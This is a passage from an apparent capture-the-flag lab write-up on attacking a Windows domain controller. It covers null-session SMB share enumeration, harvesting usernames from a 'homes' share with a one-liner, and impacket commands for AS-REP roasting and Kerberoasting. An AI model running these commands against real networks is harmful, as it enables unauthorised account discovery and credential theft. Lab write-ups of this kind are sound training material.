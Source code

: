 This will enumerate all of the SMB shares if we can see them by authenticating with null credentials.

```
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	apps            Disk      
	C$              Disk      Default share
	docs            Disk      
	homes           Disk      
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share
```

You'll see that there are around three shares that are not usually on here - being `apps`, `docs`, and `homes`. This is inherently already a vulnerability, as I should not be allowed to view these shares by default with null credentials. Let's take a look into the `homes` directory to start, as the way it sounds this could be the home directories of a few users.
`smbclient \\\\10.10.102.12\\homes -N`

In the directory that we land in, you'll find a list of users and (what we can assume) are their home directories. This is great because we already now have a wordlist to test around with LDAP.

```
smb: \> ls
  .                                   D        0  Sat Sep  2 10:45:25 2023
  ..                                  D        0  Tue Aug 22 16:10:21 2023
  Amelia.Griffiths                    D        0  Tue Aug 22 16:17:06 2023
  Carl.Moore                          D        0  Tue Aug 22 16:17:06 2023
  Harry.Shaw                          D        0  Tue Aug 22 16:17:06 2023
  Joan.Jennings                       D        0  Tue Aug 22 16:17:06 2023
  Joel.Hurst                          D        0  Tue Aug 22 16:17:06 2023
  Kieran.Mitchell                     D        0  Tue Aug 22 16:17:06 2023
  library                             D        0  Tue Aug 22 16:22:47 2023
  Lynda.Bailey                        D        0  Tue Aug 22 16:17:06 2023
  Mohammed.Harris                     D        0  Tue Aug 22 16:17:06 2023
  Nicola.Lamb                         D        0  Tue Aug 22 16:17:06 2023
  Ryan.Jenkins                        D        0  Tue Aug 22 16:17:06 2023

		6126847 blocks of size 4096. 2005567 blocks available
```

I made a one-liner that should take all of these usernames from the SMB session and convert it into a list of usernames.
`smbclient -c 'ls' \\\\10.10.102.12\\homes -N | awk '{print $1}' | grep [A-Za-z] > ul.txt`

With our list of usernames, let's test to see if any of these users are vulnerable to Kerberoasting or ASREPRoasting. We'll try and use the `Guest` user with no credentials since we don't currently have any valid passwords.
`impacket-GetNPUsers -dc-ip 10.10.102.12 -dc-host dc.baby.vl -usersfile ul.txt -request -no-pass BABY2/'Guest'`
`impacket-GetUserSPNs -dc-ip 10.10.102.12 -dc-host dc.baby.vl -usersfile ul.txt BABY2/'Guest' -no-pass`

